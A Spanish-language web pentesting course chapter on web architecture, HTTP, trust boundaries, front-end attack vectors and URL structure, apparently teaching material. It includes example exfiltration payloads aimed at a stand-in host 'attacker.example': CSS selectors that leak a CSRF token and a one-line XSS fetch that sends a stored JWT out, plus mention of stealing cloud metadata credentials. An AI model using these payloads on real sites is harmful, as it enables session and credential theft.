




# Capítulo 01: Ampliación técnica de arquitectura web y HTTP

[Inicio](../../README.md) | [Pentesting Web](../README.md) | [Capítulo esencial](./README.md) | [Laboratorio](./lab/) | [Siguiente: Fundamentos de SQL](../02-fundamentos-sql/README.md)

> Este documento conserva el desarrollo técnico extenso del capítulo. Empieza por la [guía esencial](./README.md) y utiliza esta ampliación como segunda lectura para arquitecturas distribuidas, frontend avanzado, APIs, CVE, CVSS y OWASP.

---

## Objetivos de aprendizaje

Al finalizar este capítulo serás capaz de:

- Contrastar técnicamente sitios web estáticos frente a aplicaciones web dinámicas y aplicaciones nativas, delimitando su superficie de ataque expuesta a Internet.
- Describir con rigor el modelo cliente-servidor web y justificar técnica y prácticamente por qué el navegador nunca representa una frontera de confianza (*Trust Boundary*).
- Analizar topologías de infraestructura web (monolitos LAMP/LEMP, balanceadores de carga capa 4/7, arquitecturas distribuidas de datos, microservicios y serverless/FaaS) evaluando sus implicaciones de seguridad perimetral e interna.
- Identificar los componentes del front-end (HTML, CSS, JavaScript) y sus vectores de ataque del lado cliente: HTML Injection, CSS Exfiltration, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF) y exposición de datos sensibles en código fuente o *source maps*.
- Desglosar los componentes de una URL según el estándar RFC 3986, dominar los mecanismos de *URL Encoding* (percent-encoding) y comprender vectores de evasión como *Double Encoding*.
- Trazar el ciclo de vida completo de una petición web a través de sus fases: desde la resolución DNS y negociación TCP/TLS hasta la respuesta del backend.
- Comprender la premisa fundamental de TLS: protege el canal en tránsito por la red, pero el backend procesa los datos en texto claro sin mitigar vulnerabilidades en capa de aplicación.
- Analizar la anatomía de mensajes de petición y respuesta HTTP, reconociendo que cada método, ruta, cabecera, cookie y cuerpo es un dato de entrada manipulable por el auditor.
- Contrastar el funcionamiento de servidores web perimetrales (Apache, NGINX, Microsoft IIS) y los frameworks de backend, identificando fallos comunes de configuración como *alias traversal* o sobrescrituras en `.htaccess`.
- Diferenciar bases de datos relacionales (SQL / ACID) frente a no relacionales (NoSQL / BSON / Key-Value), evaluando el papel y los límites de seguridad de los ORM/ODM.
- Comparar arquitecturas de comunicación de servicios: protocolos basados en XML como SOAP (evaluando riesgos de inyección XXE) frente a APIs RESTful basadas en JSON y verbos HTTP.
- Diferenciar rigurosamente entre formateo, codificación (*encoding*) y cifrado (*encryption*), evaluando su impacto real en auditorías de seguridad.
- Auditar la configuración de seguridad de las cookies de sesión (`Secure`, `HttpOnly`, `SameSite`) y cabeceras defensivas de respuesta.
- Explicar el funcionamiento de un proxy de interceptación (Burp Suite / OWASP ZAP) y el mecanismo de ruptura TLS (MitM) mediante certificados de CA local.
- Cuantificar la severidad de vulnerabilidades públicas mediante el estándar **CVSS v3.1** (métricas base, temporales y ambientales) y correlacionar identificadores CVE con bases de datos de vulnerabilidades (NVD, Exploit-DB).

---

## 1. El modelo de aplicaciones web y el viaje completo de una petición

Una aplicación web moderna no es un componente de software aislado; es una arquitectura distribuida y heterogénea donde interactúan el cliente, la red de transporte, servidores proxy perimetrales, servicios de backend, bases de datos y microservicios externos.

### 1.1 Sitios Web Estáticos vs Aplicaciones Web Dinámicas

Para un auditor de seguridad es vital discernir entre un sitio web tradicional y una aplicación web moderna:

- **Sitio Web Estático**: Colección de archivos planos preconstruidos (HTML, CSS, imágenes y scripts estáticos) alojados en un servidor web. Cuando el cliente emite una petición `GET /acerca-de.html`, el servidor web localiza el archivo en el sistema de archivos del sistema operativo y lo retorna en la respuesta sin ejecutar procesamiento de lógica de negocio ni realizar consultas a bases de datos.
  - *Superficie de ataque*: Reducida. Se limita primordialmente a la seguridad del software del servidor web (versiones desactualizadas, denegación de servicio, path traversal o permisos erróneos de archivos).
- **Aplicación Web Dinámica**: Sistema de software completo que genera contenido en tiempo real en respuesta a las acciones del usuario. Cuando el cliente envía una petición, el servidor web la delega a un motor de ejecución en el backend (PHP, Python, Node.js, Java, .NET, Ruby). Este motor ejecuta lógica de negocio, valida identidades, consulta bases de datos relacionales o no relacionales, interactúa con APIs de terceros y construye dinámicamente el contenido devuelto (HTML renderizado o cargas útiles JSON/XML).
  - *Superficie de ataque*: Muy amplia y compleja. Abarca autenticación, control de accesos, validación de entradas, deserialización de objetos, inyecciones de código, estado de sesión y seguridad en APIs auxiliares.

### 1.2 Aplicaciones Web vs Aplicaciones Nativas de Sistema Operativo

| Dimensión | Aplicación Nativa (Desktop / Móvil) | Aplicación Web |
|---|---|---|
| **Entorno de Ejecución** | Ejecutada directamente sobre el sistema operativo (Windows, Linux, macOS, Android, iOS) con acceso a APIs del kernel y hardware. | Ejecutada dentro de la máquina virtual o *sandbox* del navegador web (aislada del hardware directo). |
| **Distribución y Actualización** | Requiere descarga, instalación de binarios y procesos periódicos de actualización de software en el cliente. | Acceso instantáneo y universal mediante una URL sobre el protocolo HTTP/HTTPS; las actualizaciones se aplican centralizadamente en el servidor. |
| **Compatibilidad** | Dependiente de la plataforma y arquitectura del procesador (x86_64, ARM). | Multiplataforma por definición: compatible con cualquier cliente que soporte estándares web (W3C / WHATWG). |
| **Superficie de Ataque** | Ataques locales: análisis dinámico y estático de binarios, ingeniería inversa, volcados de memoria, manipulación de DLLs (*DLL Hijacking*) y elevación de privilegios locales. | **Superficie expuesta a Internet 24/7**: Accesible globalmente a través de puertos estándar (80, 443). Cualquier actor malicioso en la red puede interactuar con la lógica del servidor sin autorización previa ni acceso físico. |

### 1.3 Modelos de Despliegue y Distribución

1. **On-Premise (Local / Servidores Propios)**: La organización aloja la infraestructura en sus propios centros de datos. Otorga control absoluto sobre el hardware y la red, pero impone la responsabilidad total del mantenimiento físico, segmentación perimetral, actualización de parches y redundancia.
2. **Nube (IaaS / PaaS)**: Alojamiento en proveedores de nube (AWS, Microsoft Azure, Google Cloud Platform, DigitalOcean). Se delega la capa física (IaaS) o la gestión del sistema operativo y runtime (PaaS). La seguridad se rige por el *Modelo de Responsabilidad Compartida*: el proveedor asegura la nube, pero el cliente es responsable de configurar accesos (IAM), redes virtuales (VPC), cortafuegos perimetrales y el código de la aplicación.
3. **SaaS (Software as a Service) y Arquitecturas Multi-Inquilino (*Multi-Tenancy*)**: El software se ofrece como un servicio a múltiples clientes u organizaciones independientes (*tenants*) compartiendo la misma infraestructura y base de datos subyacente.
   - *Riesgo crítico de seguridad*: **Aislamiento deficiente de datos**. Si el código de la aplicación no filtra rigurosamente cada consulta mediante el identificador de inquilino (`tenant_id`), un atacante de la Organización A puede acceder o modificar datos de la Organización B (*Cross-Tenant Data Leakage* o BOLA/IDOR a nivel de tenant).

### 1.4 Trayectoria de los datos en la arquitectura web

A nivel conceptual, los datos fluyen a través de capas bien definidas:



Para evaluar la seguridad de una aplicación web desde la perspectiva de un pentester profesional, es fundamental visualizar la trayectoria íntegra que recorren los datos:

### Mapa didáctico: Del navegador a la respuesta



Este mapa didáctico articula el flujo de una petición web en dos grandes dominios separados por la **Frontera de Confianza**:

1. **Entorno no confiable (Lado cliente)**: El navegador del usuario ejecuta HTML, CSS y JavaScript. El cliente es enteramente manipulable mediante DevTools (F12), scripts locales, llamadas directas con `curl` o proxies de interceptación.
2. **Construcción del canal (Red y transporte)**: Antes de intercambiar datos HTTP, se requiere resolver el dominio vía DNS, establecer la sesión TCP mediante el *3-way handshake* y negociar el túnel cifrado TLS.
3. **Petición HTTP (Datos de entrada)**: El mensaje con método, ruta, query string, cabeceras, cookies y cuerpo. Todo este contenido lo controla el usuario.
4. **Frontera de confianza (*Trust Boundary*)**: Límite estricto a partir del cual el servidor debe asumir que toda entrada está potencialmente contaminada.
5. **Entorno del servidor (Punto de control)**:
   - **Servidor Web (Nginx / Apache / IIS)**: Termina el túnel TLS, despacha archivos estáticos y enruta peticiones dinámicas mediante proxy inverso.
   - **Backend / Lógica de aplicación**: Autentica al usuario, autoriza el recurso solicitado, valida reglas de negocio y procesa la transacción.
   - **Base de Datos y APIs externas**: Almacenamiento persistente (SQL/NoSQL) y servicios de soporte (pagos, correo, IAM). **El navegador nunca dialoga directamente con la base de datos**.
6. **Respuesta HTTP**: El backend construye el estado y los datos devueltos, y el servidor web los retorna al cliente a través del canal protegido.

---

## 2. Topologías de infraestructura y arquitecturas web modernas

La topología de red y la arquitectura de despliegue determinan cómo se propagan las amenazas y qué impacto alcanza el compromiso de un componente individual.

### 2.1 Monolito en un solo servidor (Single Server: LAMP / LEMP)

Es la topología fundacional. Todos los componentes de la aplicación residen dentro del mismo sistema operativo o máquina virtual:

- **Pila LAMP**: Linux + Apache HTTP Server + MySQL/MariaDB + PHP.
- **Pila LEMP**: Linux + NGINX (Engine-X) + MySQL/MariaDB + PHP/Python.

```text
+-------------------------------------------------------------------+
|               SERVIDOR ÚNICO (Host Físico / VM)                  |
|                                                                   |
|   Petición HTTP(S) ---> [ Servidor Web: Nginx/Apache ]            |
|                                    | (FastCGI / Proxy local)      |
|                                    v                              |
|                         [ Backend: PHP / Python ]                 |
|                                    | (Unix Socket / 127.0.0.1)    |
|                                    v                              |
|                         [ Base de Datos: MySQL ]                  |
+-------------------------------------------------------------------+
```

- **Implicaciones de seguridad para el auditor**:
  - **Punto único de falla y compromiso total**: No existe segmentación de red entre capas. Si el auditor logra una vulnerabilidad de Inclusión Local de Archivos (LFI) o Ejecución Remota de Código (RCE) en la aplicación web, puede leer archivos de configuración (`config.php`, `.env`), obtener contraseñas de la base de datos y conectarse a `localhost:3306` o al socket Unix local sin restricciones de firewall de red.
  - El usuario que ejecuta el servidor web (ej. `www-data` o `apache`) suele tener permisos de lectura sobre todo el árbol de la aplicación, facilitando la extracción completa del código fuente.

### 2.2 Balanceo de carga y múltiples servidores (Many Servers - One Database)

A medida que el tráfico crece, se implementa escalabilidad horizontal replicando servidores web/backend detrás de un balanceador de carga (*Load Balancer*):

```text
                           +---------------------------+
                           |   Load Balancer (HAProxy) |
                           +---------------------------+
                             /           |           \
                            /            |            \
                           v             v             v
                     +-----------+ +-----------+ +-----------+
                     | Nodo Web 1| | Nodo Web 2| | Nodo Web 3|
                     +-----------+ +-----------+ +-----------+
                           \             |             /
                            \            |            /
                             v           v           v
                           +---------------------------+
                           |  Base de Datos Central    |
                           +---------------------------+
```

- **Tipos de Balanceadores de Carga**:
  - **Capa 4 (Transporte - TCP/UDP)**: Reenvía paquetes IP basándose exclusivamente en dirección IP y puerto destino (ej. HAProxy en modo TCP, AWS NLB). No inspecciona el contenido HTTP ni termina TLS.
  - **Capa 7 (Aplicación - HTTP/HTTPS)**: Inspecciona cabeceras HTTP, cookies y rutas de URL (ej. NGINX, HAProxy en modo HTTP, AWS ALB). Permite terminar el túnel TLS perimetralmente (*SSL Offloading*) y enrutar peticiones a diferentes nodos según la ruta (`/api/*` vs `/static/*`).
- **El reto de la persistencia de sesión**:
  - Si un usuario inicia sesión en el Nodo 1 y su siguiente petición es enviada al Nodo 2, el segundo nodo no reconocerá su sesión si esta se guarda en el sistema de archivos local (`/var/lib/php/sessions`).
  - *Solución 1: Sticky Sessions (Afinidad de sesión)*: El balanceador asocia al cliente con un nodo específico mediante una cookie de balanceo. **Debilidad**: Si el nodo asignado cae, la sesión del usuario se pierde.
  - *Solución 2: Almacén Centralizado de Sesiones en Memoria (Redis / Memcached)*: Todos los nodos web comparten un almacén ultra-rápido en memoria para verificar tokens y sesiones.
  - *Riesgo en Pentesting*: Si Redis o Memcached se configuran con acceso sin autenticación en la red interna o con puertos expuestos (TCP 6379 / 11211), un atacante que acceda a la red puede volcar o sobrescribir las sesiones de todos los usuarios del sistema.

### 2.3 Arquitecturas distribuidas de datos (Many Servers - Many Databases)

Cuando una única base de datos se convierte en el cuello de botella de rendimiento, se distribuye la capa de persistencia:

- **Replicación Maestro-Esclavo (Primary - Replica)**: Un nodo primario recibe todas las operaciones de escritura (`INSERT`, `UPDATE`, `DELETE`) y replica los cambios asíncronamente a múltiples réplicas de sólo lectura (*Read Replicas*). Las peticiones `GET` se distribuyen entre las réplicas para maximizar el caudal de lectura.
- **Particionamiento Horizontal (*Sharding*)**: La información se fragmenta en bases de datos independientes basándose en una clave de partición (ej. usuarios de Europa en una base de datos, usuarios de América en otra, o rangos de IDs de cliente).
- **Implicación de seguridad**: Desincronización de estado y *consistencia eventual*. Si un control de seguridad depende de lecturas inmediatas tras una escritura (ej. verificar si un cupón de descuento o un token de un solo uso ya fue consumido), la latencia de replicación entre el primario y las réplicas puede originar **Condiciones de Carrera (Race Conditions)** que permitan el doble gasto o la reutilización ilegítima de tokens.

### 2.4 Arquitectura de Microservicios

En lugar de un monolito indivisible, la aplicación se divide en un ecosistema de servicios pequeños, desacoplados e independientes (ej. Servicio de Autenticación, Servicio de Catálogo, Servicio de Pagos, Servicio de Envíos), cada uno con su propia base de datos y tecnologías específicas.

- **Componentes clave**:
  - **API Gateway**: Punto perimetral de entrada único que autentica a los clientes externos, limita tasas de peticiones (*rate limiting*) y enruta las llamadas a los microservicios internos correspondientes.
  - **Comunicación inter-servicio**: Se realiza internamente mediante llamadas REST ligeras, gRPC de alto rendimiento sobre HTTP/2 o intermediarios de mensajería asíncrona (*Message Brokers* como RabbitMQ, Apache Kafka o Redis Streams).
  - **Service Mesh (Istio, Linkerd)**: Capa de infraestructura dedicada a gestionar la observabilidad y la autenticación mutua criptográfica (**mTLS**) entre microservicios.
- **Vectores de ataque críticos en Microservicios**:
  - **Server-Side Request Forgery (SSRF)**: Si un atacante induce a un microservicio perimetral a realizar peticiones arbitrarias, puede comunicarse directamente con microservicios internos que eluden el API Gateway y que con frecuencia carecen de autenticación interna bajo el supuesto erróneo de encontrarse en una "red privada confiable".
  - **Falta de segregación de privilegios**: Si un microservicio auxiliar es comprometido mediante una vulnerabilidad de deserialización o inyección de comandos, la ausencia de mTLS o políticas de red permite al atacante pivotar lateralmente hacia el microservicio de pagos o la bóveda de secretos.

### 2.5 Arquitectura Serverless / FaaS (Function as a Service)

En las arquitecturas Serverless (AWS Lambda, Google Cloud Functions, Azure Functions), los desarrolladores escriben funciones atómicas que se ejecutan de forma efímera en respuesta a eventos (ej. una petición HTTP recibida en un API Gateway, un archivo subido a un bucket de almacenamiento o un mensaje en una cola).

- El proveedor de nube aprovisiona y escala automáticamente los contenedores de ejecución subyacentes, destruyéndolos tras un periodo de inactividad.
- **Implicaciones de seguridad para el pentester**:
  - El atacante no tiene acceso persistente a un servidor con sistema operativo tradicional; los contenedores son efímeros.
  - **El foco de ataque se desplaza a la Identidad y Accesos (IAM)**: Las funciones serverless heredan roles y permisos de nube (ej. roles de IAM de AWS). Si una función tiene asignados permisos excesivamente permisivos (ej. `s3:*` o `dynamodb:*`) y sufre inyección de comandos, el atacante puede consultar el servicio de metadatos de la instancia de nube (`http://169.254.169.254`) y exfiltrar las credenciales temporales de sesión de la nube (*AWS STS tokens*), comprometiendo recursos en toda la cuenta corporativa.

---

## 3. Front-End: Tecnologías base, roles y vectores de ataque en cliente

El front-end comprende todos los componentes de software que se transmiten y ejecutan en el navegador web del usuario final. Sus tres pilares son HTML, CSS y JavaScript.

### 3.1 HTML (HyperText Markup Language): Estructura del DOM y etiquetas críticas

HTML proporciona la estructura jerárquica del documento web. El motor del navegador interpreta el código HTML y construye el **Document Object Model (DOM)**, una representación en forma de árbol de objetos que modela cada elemento de la página.

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Panel de Usuario</title>
</head>
<body>
    <h1>Bienvenido, <span id="username">Carlos</span></h1>
    <form action="/transferir" method="POST">
        <input type="hidden" name="csrf_token" value="abc123xyz">
        <input type="text" name="cuenta_destino" placeholder="Cuenta">
        <input type="number" name="monto" max="1000">
        <button type="submit">Enviar</button>
    </form>
</body>
</html>
```

- **Etiquetas e implicaciones directas en seguridad**:
  - `<form action="..." method="...">`: Define a qué endpoint y con qué verbo HTTP (`GET` o `POST`) se enviarán los datos del usuario.
  - `<input type="hidden">`: Diseñado para transportar metadatos de estado. Jamás debe usarse para almacenar precios, roles o privilegios, pues reside en texto claro en el DOM y puede ser manipulado en un segundo por el usuario.
  - `<iframe src="..." sandbox>`: Incrusta documentos externos. La omisión del atributo defensivo `sandbox` expone a la aplicación a ataques de *Clickjacking* o ejecución de scripts en contextos no deseados.
  - `<a href="..." target="_blank" rel="noopener noreferrer">`: Al abrir enlaces externos con `target="_blank"`, es imperativo añadir `rel="noopener noreferrer"`. De lo contrario, la página de destino tiene acceso al objeto `window.opener` del sitio de origen, permitiendo redirigir al usuario a un sitio falso de phishing (*Reverse Tabnabbing*).
- **Vulnerabilidad de HTML Injection**:
  - Se produce cuando la aplicación concatena datos controlados por el usuario directamente en el DOM sin escapar caracteres especiales como `<`, `>`, `"`, `'`.
  - Aunque no se logre ejecutar JavaScript (debido a filtros o políticas WAF), un atacante puede inyectar etiquetas HTML para alterar visualmente la interfaz, insertar formularios de inicio de sesión fraudulentos que apunten al servidor del atacante (phishing contextual) o usar etiquetas `<base href="https://attacker.example/">` para secuestrar todas las rutas relativas de scripts e imágenes del sitio legítimo.

### 3.2 CSS (Cascading Style Sheets): Presentación y vectores de inyección

CSS define la presentación visual, colores, diseño y tipografía de los elementos del DOM.

- **Vectores de ataque en CSS (CSS Injection y Exfiltración de datos)**:
  - Cuando una aplicación permite inyectar reglas de estilo personalizadas (en atributos `style="..."` o etiquetas `<style>`), un atacante puede manipular la interfaz visual (ocultar avisos de seguridad, superponer elementos de clic para clickjacking).
  - **Data Exfiltration mediante Selectores CSS**: En contextos donde una inyección CSS puede coincidir con atributos expuestos en el DOM, el navegador puede resolver recursos de forma reactiva. Un atacante puede intentar extraer valores confidenciales (por ejemplo, tokens CSRF presentes como atributos) carácter por carácter sin ejecutar JavaScript; el comportamiento exacto depende del navegador, del contexto del atributo y de las políticas de contenido:
    ```css
    input[name="csrf_token"][value^="a"] { background-image: url('https://attacker.example/leak?c=a'); }
    input[name="csrf_token"][value^="b"] { background-image: url('https://attacker.example/leak?c=b'); }
    input[name="csrf_token"][value^="c"] { background-image: url('https://attacker.example/leak?c=c'); }
    ```
    Si una regla coincide, el navegador puede emitir una petición HTTP GET a `attacker.example` con el carácter correspondiente, permitiendo reconstruir parte del secreto en un entorno de prueba.

### 3.3 JavaScript: Motor de ejecución, APIs y almacenamiento en cliente

JavaScript es el lenguaje de programación interpretado que se ejecuta en el navegador (mediante motores como V8 en Google Chrome/Edge o SpiderMonkey en Firefox). Permite la interacción dinámica, la manipulación en tiempo real del DOM y la comunicación asíncrona con el servidor mediante `fetch()` o `XMLHttpRequest` (AJAX).

- **Mecanismos de almacenamiento en el navegador del cliente**:
  - `localStorage`: Almacén persistente de clave-valor que no expira al cerrar el navegador. Es accesible por cualquier script JavaScript que se ejecute bajo el mismo origen (*Same-Origin Policy*).
     - *Alerta de seguridad*: Guardar tokens JWT de sesión en `localStorage` es un riesgo severo. Cualquier vulnerabilidad de XSS permite al atacante extraer el token en una sola línea: `fetch('https://attacker.example/?t=' + localStorage.getItem('jwt'))`.
  - `sessionStorage`: Idéntico a `localStorage`, pero sus datos se destruyen cuando se cierra la pestaña del navegador. Presenta la misma vulnerabilidad frente a XSS.
  - `IndexedDB`: Base de datos NoSQL transaccional del lado cliente para almacenar grandes volúmenes de datos estructurados.
   - `Cookies` con atributo `HttpOnly`: A diferencia de los almacenes anteriores, una cookie con el flag `HttpOnly` **no puede ser leída directamente por JavaScript** (`document.cookie` no la devuelve). Reduce el robo directo del identificador frente a XSS, pero no impide que un script inyectado ejecute acciones autenticadas.

### 3.4 Exposición de Información Sensible en Front-End (Sensitive Data Exposure)

Todo el código fuente descargado por el navegador es accesible para el auditor mediante las herramientas de desarrollador (F12) o mediante peticiones directas. Los fallos más frecuentes incluyen:

1. **Comentarios en código fuente**: Comentarios en HTML (`<!-- TODO: quitar endpoint admin /api/v1/debug -->`) o en archivos JS (`// auth_secret provisional`) que revelan rutas internas, credenciales de prueba o lógica confidencial.
2. **Claves de API y credenciales hardcodeadas**: Desarrolladores que confunden claves públicas con claves privadas e incrustan credenciales de bases de datos, claves de servicios en la nube (AWS Access Keys) o tokens de servicios de pago en archivos JavaScript públicos.
3. **Mapas de código fuente desprotegidos (*Source Maps* / `.js.map`)**: En aplicaciones desarrolladas con frameworks modernos (React, Angular, Vue, TypeScript), el código se ofusca y minifica para producción. Si la compilación deja expuestos los archivos `.map` en el servidor (ej. `main.bundle.js.map`), el auditor puede reconstruir el 100% del código fuente original TypeScript/React, incluyendo funciones privadas y comentarios de desarrollo.

### 3.5 Ataques Fundamentales del Lado Cliente: XSS y CSRF

- **Cross-Site Scripting (XSS)**:
  - Ocurre cuando la aplicación incluye datos no confiables en una página web sin validación ni codificación contextual adecuada, permitiendo la ejecución de JavaScript arbitrario en el navegador de la víctima.
  - *Reflejado (Reflected)*: El payload viaja en la petición HTTP (parámetros de URL o formularios) y el servidor lo refleja inmediatamente en la respuesta.
  - *Almacenado (Stored / Persistent)*: El payload se almacena permanentemente en la base de datos (ej. un comentario o nombre de perfil) y se ejecuta en los navegadores de todas las víctimas que visualicen ese registro.
  - *Basado en DOM (DOM-based)*: La vulnerabilidad se produce íntegramente en el cliente cuando el código JavaScript lee datos de una fuente insegura (*Source*, ej. `location.search`) y los escribe en un receptor peligroso del DOM (*Sink*, ej. `innerHTML` o `eval()`) sin pasar por el backend.
- **Cross-Site Request Forgery (CSRF)**:
  - Ataque que engaña al navegador de un usuario autenticado para que ejecute acciones no deseadas en una aplicación en la que mantiene una sesión activa (ej. cambiar contraseña o realizar una transferencia bancaria).
  - *Defensas clave*: Tokens Anti-CSRF criptográficamente seguros y de un solo uso en formularios POST, cabeceras personalizadas de solicitud (`X-Requested-With`) y el atributo de cookie `SameSite=Strict` o `SameSite=Lax`.

---

## 4. Fronteras de confianza: El cliente no es una autoridad

Uno de los principios cardinales en la seguridad de aplicaciones web es el concepto de **frontera de confianza** (*Trust Boundary*).

```text
[ ENTORNO NO CONFIABLE ]                     [ ENTORNO CONFIABLE ]
    Navegador / Cliente                             Servidor
+--------------------------+               +--------------------------+
| - HTML / CSS             |   HTTP(S)     | - Lógica de negocio      |
| - JavaScript             | ------------> | - Autenticación          |
| - Validaciones en form   |               | - Autorización por roles |
| - Almacenamiento local   |               | - Consultas a BD         |
+--------------------------+               +--------------------------+
     (Totalmente manipulable)                     (Punto único de control)
```

> [!CAUTION]
> **REGLA DE ORO DE SEGURIDAD WEB (CWE-602)**: Validar identidad, permisos, precios y datos en el backend. Las validaciones del navegador solo mejoran la experiencia de usuario (UX); **jamás son controles de seguridad**.

### Métodos de evasión de controles en el cliente

Cualquier restricción implementada en el cliente puede neutralizarse trivialmente por un atacante o auditor:

| Mecanismo en Frontend | Propósito pretendido (UX) | Técnica de bypass por el auditor |
|---|---|---|
| Atributo `maxlength="10"` | Limitar longitud de texto en `<input>` | Eliminar o editar el atributo mediante DevTools (F12) o enviar la petición vía `curl`. |
| Atributo `disabled` o `readonly` | Bloquear campos de formulario no modificables | Remover el atributo en el árbol DOM del navegador o generar la petición HTTP manualmente. |
| Validación JavaScript `checkForm()` | Verificar que el email tenga `@` o que la clave sea robusta | Desactivar JavaScript en el navegador o enviar el payload directo por Burp Suite / Repeater. |
| Campo oculto `<input type="hidden" name="price" value="100">` | Almacenar el precio del producto para enviarlo al checkout | Modificar el valor a `1` en DevTools o en el cuerpo de la petición POST interceptada. |
| Menú desplegable `<select>` con roles (`user`, `guest`) | Evitar que el usuario seleccione el rol `admin` | Inyectar `role=admin` en el cuerpo de la petición HTTP con Burp Suite o `curl`. |

Por tanto: **Toda decisión crítica de seguridad (identidad, permisos sobre el recurso, precios, saldos, transacciones) debe validarse estrictamente en el backend**.

---

## 5. Anatomía de una URL (RFC 3986), Codificación y vectores de entrada

Un Localizador Uniforme de Recursos (URL) es una cadena de caracteres estructurada que define la ubicación de un recurso y el protocolo para acceder a él.

Analicemos la URL del mapa didáctico:

```text
https://app.example.com:8443/admin/report?id=42&format=pdf#resumen
\___/   \_____________/ \__/ \__________/ \______________/ \_____/
  |            |          |        |              |           |
Esquema       Host      Puerto    Ruta       Query String  Fragmento
```

| Componente | Ejemplo | Función técnica | Vectores de Ataque en Pentesting |
|---|---|---|---|
| **Esquema (Scheme)** | `https` | Define el protocolo de transporte (`http`, `https`, `ftp`). | Determina si el canal va cifrado con TLS (`https`) o en claro (`http`). Superficie para ataques de *SSL Stripping* y políticas *HSTS*. |
| **Host** | `app.example.com` | FQDN o dirección IP que identifica el servidor de destino. | Determina la resolución DNS y la cabecera `Host:`. Vector de *Host Header Injection*, envenenamiento de caché web y enrutamiento en *Virtual Hosts*. |
| **Puerto** | `:8443` | Puerto TCP de escucha del servicio web. | Puertos no estándar (ej. 8080, 8443) suelen alojar paneles administrativos internos o APIs que eluden reglas de filtrado perimetral. |
| **Ruta (Path)** | `/admin/report` | Ubicación lógica del recurso o endpoint en el servidor. | Superficie para ataques de *Path Traversal* (`../`), enumeración de directorios ocultos y bypass de proxies por inconsistencias de normalización. |
